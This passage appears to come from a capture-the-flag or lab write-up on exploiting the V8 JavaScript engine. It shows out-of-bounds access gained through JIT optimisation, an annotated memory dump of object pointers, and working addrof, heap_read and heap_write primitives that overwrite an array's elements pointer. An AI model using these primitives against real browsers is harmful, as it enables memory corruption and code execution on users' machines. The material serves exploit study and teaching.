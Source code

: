 ## OOB Access
```js
/* Optimize the function oob_read_opt() */
for (i = 0; i < 0x10000; i++)  oob_read_opt("B");

[leet, noob, obj_arr] = oob_read_opt("B");

for (i = 0; i < 20 ; i++)	print(i + ":\t" + hex(ftoi(leet[i])));
```

```bash
0:	0x402abd70a3d70a3d
1:	0x7ff8000000000000
2:	0x7ff8000000000000
3:	0x7ff8000000000000
4:	0x804222d081c3a19
5:	0xfffffffe0821c88d
6:	0x408042205
7:	0x819217d0821c8b5		<-- elements of obj_arr start here
8:	0x804222d081c3a41		<-- hidden_map pointer of obj_arr
9:	0x40821c8c5			<-- elements pointer of obj_arr array
10:	0x408042a95
11:	0x3ff199999999999a		<-- elements of noob start here
12:	0x400199999999999a
13:	0x804222d081c39f1		<-- hidden_map pointer of noob array
14:	0x40821c8e5			<-- elements pointer of noob array
15:	0x608042205
16:	0x821c8fd0821c8b5
17:	0x81c3a410821c8d5
18:	0x821c90d0804222d
19:	0x81c3f6900000006
```
Now as we can see, we can use `leet` array to access and modify all the parts of `obj_arr` and `noob` array including the sensitive pointers like, hidden_map, elements pointer.
Now we simply make use of this oob_access to get general primitives for v8 exploitation:
```js
function addrof(obj) {
  obj_arr[0] = obj;
  return ftoi(leet[7]) & 0xffffffffn;
}

function heap_read(addr) {		// addr -> int32_t
  addr |= 1n;
  addr -= 8n;
  leet[14] = itof((4n << 32n) + addr);
  return ftoi(noob[0]);
}

function heap_write(addr, val) {	// addr -> int32_t, val -> int64_t
  addr |= 1n;
  addr -= 8n;
  leet[14] = itof((4n << 32n) + addr);
  noob[0] = itof(val);
  return;
}
```
